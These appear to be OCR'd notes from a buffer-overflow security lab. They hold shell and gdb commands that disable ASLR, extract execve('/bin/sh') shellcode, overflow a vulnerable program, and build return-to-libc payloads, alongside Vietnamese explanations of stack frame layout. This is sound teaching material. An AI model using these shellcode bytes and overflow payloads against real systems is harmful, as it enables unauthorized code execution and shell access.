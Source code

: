 sudo ln -sf /bin/zsh /bin/sh
sudo sysctl -w kernel.randomize_va_space=0
nasm -f elf sh1.asm -o sh1.o
nasm -f elf32 sh1.asm -o sh1.o
ld -m elf32 sh1.o -o sh1

for i in $(objdump -d sh1.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo     

disas main
b *0x0804846b
r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+ 'a'*41+ '\xff\xff\xff\xff')")
r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+ 'a'*41+ '\xff\xff\xff\xff')")
x/80xb $esp
set *0xffffd72c =$esp
continue
x
x/80xb $esp
exit
exit
quit

 ./vulnerable.o $(python -c "print('A'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\xd8\xF7\xff\xff')")
  ./vulnerable.o $(python -c "print('A'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\xd8\xf7\xff\xff')")
  run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x01\xd9\xff\xff')")
  run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\xf7\xd8\xff\xff')")
  run $(python -c "print('a'*20 + '\x01\xd9\xff\xff' + '\xe0\x49\xe4\xf7')")

0xf7e50db0
0xf7e449e0
0xffffd8f7
0xffffd901

- Tạo image trong folder có Dockerfile
`_StackFrame_`
- Trước khi hàm main được gọi, chương trình sẽ có vùng nhớ stack của hệ thống (PREVIOUS STACK FRAME)
- Khi hàm main được gọi, các đối số argv và argc sẽ được push vào trong stack theo thứ tự 
    + argv chứa địa chỉ của chuỗi tham số
    + argc số đối số nhập trên dòng lệnh chương trình được nhập vào  
    + Mỗi ô là 4 byte (32bit)
- Sau đó eip (Return address) và ebp (Frame pointer) sẽ được push vào stack 
- Sau đó trong hàm main thực hiện lệnh 
    + push ebp
    + mov ebp, esp ( lấy ebp = giá trị esp)
- Sau đó ebp bị trừ đi bằng với số ô nhớ trong hàm main 
- Các biến local vars trong hàm main sẽ được push vào

docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab


`flag.c`
|      |    
|      |buffer[16]
|      |
|      |    
|      |
|      |
|      |flag
